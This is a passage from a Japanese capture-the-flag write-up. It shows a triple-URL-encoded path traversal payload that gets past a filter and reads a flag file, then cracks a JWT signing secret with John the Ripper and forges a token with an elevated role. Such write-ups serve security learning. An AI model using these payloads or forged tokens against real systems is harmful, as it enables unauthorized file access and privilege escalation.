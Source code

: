 以下の文字列を3回URLエンコードして送ることで、`useless`の判定処理を回避して任意のファイルを読み込ませることが可能です。

```text
../flag.txt
```

- ペイロード

```text
http://34.132.132.69:8003/read_secret_message?file=%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%36%25%33%36%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%34%25%32%35%25%33%37%25%33%38%25%32%35%25%33%37%25%33%34
```

- Flag

```text
flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}
```

### Secret-of-Kurama

- 問題文

```text
Madara attacked leaf village. everyone wants Naruto to turn into Nine-Tails, Naruto don't know what's the SECRET to change its role to 'NineTails'? can you as a shinobi help Naruto??? username: Naruto Password: Chakra
```

問題文に書いてある認証情報でログインすると、JWTが発行されていることがわかります。  
None攻撃は使えませんでしたが、何回ログインしても同じJWTが発行されていたため、SECRETが固定値であると推測しました。

john the ripperで総当たり攻撃を行います。

```text
$ john jwt                           
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 AVX 4x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
minato           (?)     
1g 0:00:00:00 DONE 3/3 (2023-12-17 07:30) 3.571g/s 589421p/s 589421c/s 589421C/s 025245..11021
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

SECRETが`minato`であることがわかりました。  
後は、JWTを生成して、問題通りにroleを`NineTails`にすれば良いです。

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik5hcnV0byIsInJvbGUiOiJOaW5lVGFpbHMifQ.rDZ26ZE_F4l0Ve4E-2sKP4qKNuadhLU8nrThW7YGVPg
```
